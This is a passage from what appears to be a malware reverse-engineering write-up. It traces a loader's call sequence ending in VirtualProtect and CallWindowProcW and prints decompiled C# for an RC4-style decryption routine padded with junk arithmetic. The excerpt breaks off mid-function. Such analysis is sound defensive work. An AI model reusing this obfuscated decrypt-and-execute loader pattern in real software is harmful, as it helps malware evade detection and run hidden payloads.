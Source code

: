 ```
}
```

Let's analyse **main** function: it will execute functions following this order: **Resolver -> FreeConsole -> UAdhuyichgAUIshuiAuis -> PersonalActivation -> VirtualProtect -> 
CallWindowProcW**. The most suspicious function here is **PersonalActivation** which processed two parameters in each time:

```
public static void PersonalActivation(List<int> aaa, byte[] ioAHsiujxhbiAIkao, byte[] key)
{
	byte[] array = new byte[256];
	byte[] array2 = new byte[256];
	int i;
	for (i = 0; i < 256; i++)
	{
		array[i] = byte.Parse(i.ToString());
		int num = 112643575;
		uint num2 = 559148582U;
		uint num3 = 187982529U;
		uint num4 = 1563534896U;
		uint num5 = 1953161141U;
		int num6 = 2075696868;
		uint num7 = 283774760U;
		uint num8 = 1504728650U;
		uint num9 = 972316772U;
		uint num10 = 550482091U;
		int num11 = (int)(num2 / num9);
		uint num12 = num8 - num4;
		uint num13 = (uint)(num - num);
		num8 = num12 / num8;
		if (num10 < num2)
		{
			num7 = (uint)(num6 * num);
		}
		if ((long)num6 < (long)((ulong)num10))
		{
			num9 = (uint)((long)num - (long)((ulong)num4));
			uint num14 = (uint)((ulong)num3 * (ulong)((long)num));
		}
		if ((ulong)num5 >= (ulong)((long)num11))
		{
			num12 = num13 / num7;
		}
		array2[i] = key[i % key.Length];
	}
	i = 0;
	int num15 = 0;
	while (i < 256)
	{
		num15 = (num15 + (int)array[i] + (int)array2[i]) % 256;
		byte b = array[i];
		array[i] = array[num15];
		array[num15] = b;
		i++;
	}
	i = 0;
	num15 = 0;
	for (int j = 0; j < ioAHsiujxhbiAIkao.Length; j++)
	{
		int num16 = 1677890457;
		uint num17 = 970823212U;
		int num18 = 2032724462;
		uint num19 = 996749628U;
```